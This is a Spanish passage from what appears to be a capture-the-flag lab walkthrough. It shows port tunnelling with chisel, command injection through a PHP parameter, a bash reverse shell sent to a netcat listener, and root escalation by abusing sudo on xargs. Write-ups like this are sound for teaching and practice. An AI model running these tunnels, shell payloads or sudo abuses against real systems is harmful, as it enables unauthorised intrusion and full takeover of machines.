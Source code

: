 ```shell
curl -o chisel.gz -L https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
chmod +x chisel
```

Máquina atacante:

```shell
./chisel server --reverse 1234
```

Máquina víctima:

```shell
./chisel client 172.17.0.1:8080 R:9999:127.0.0.1:9999
```

![Pasted image 20240506210404](https://github.com/albertomarcostic/HackTheHeaven/assets/131155486/b6298c14-4f40-4205-aa5e-ee1302a62f0e)

Ahora ya podemos acceder desde nuestro navegador local:

![Pasted image 20240506210734](https://github.com/albertomarcostic/HackTheHeaven/assets/131155486/4e159688-d36a-494a-b30a-cc74d7a0bc82)

Nos ponemos en escucha con **netcat**:

```shell
nc -nlvp 4433
```

Nos enviamos una **reverse shell** desde la URL:

```shell
http://localhost:9999/index.php?cmds4vi=bash -c "bash -i >%26 /dev/tcp/127.0.0.1/4433 0>%261"
```

Estamos dentro como el usuario **s4vitar**
Si hacemos **sudo -l** vemos que podemos ejecutar **xargs** como el usuario **root**.

```shell
sudo -l
-----------------------------
User s4vitar may run the following commands on ba39cbc27b36:
    (root) NOPASSWD: /usr/bin/xargs
```

Abusamos de este ejecutando:

```shell
sudo /usr/bin/xargs -a /dev/null bash
```

```shell
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximos en la máquina !
